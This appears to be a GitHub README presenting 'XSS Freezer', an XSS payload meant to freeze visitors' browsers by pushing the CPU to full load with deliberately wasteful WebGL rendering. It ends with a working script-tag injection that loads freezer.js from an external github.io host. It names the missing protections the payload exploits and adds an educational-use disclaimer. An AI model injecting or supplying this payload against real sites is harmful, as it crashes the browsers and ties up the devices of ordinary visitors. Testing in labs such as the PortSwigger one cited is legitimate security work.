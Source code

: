 <b>XSS Freezer</b> is an XSS vulnerability (Stored, Reflected) payload that crashes the browser and warms up the CPU due to a 100% load. CPU load is achieved due to WebGL 2.0 with extreme settings, complex shaders, mass particle rendering, interactivity, and negative code optimization (i.e. not for the benefit but for the detriment of the user).

The script will work if the page is missing:
* SOP (Same-Origin Policy);
* CSP (Content Security Policy);
* Input validation;
* And other technologies that prevent XSS.

For the test, you can run the laboratory in https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded.

⚠️ Important: This payload is intended solely for educational purposes and testing on protected systems. Use in real attacks violates laws and ethical standards. The author of the repository is not responsible for the use of this payload by third parties.

https://github.com/user-attachments/assets/e35d05a5-1d54-42a2-89e8-511a6380acd5

------------------------------------------

```<script>var c=document.createElement('canvas');c.id='cpuCanvas';document.body.appendChild(c);var r=document.createElement('script');r.src='//0-dayff13r.github.io/XSS-Freezer/freezer.js';document.body.appendChild(r);</script>```
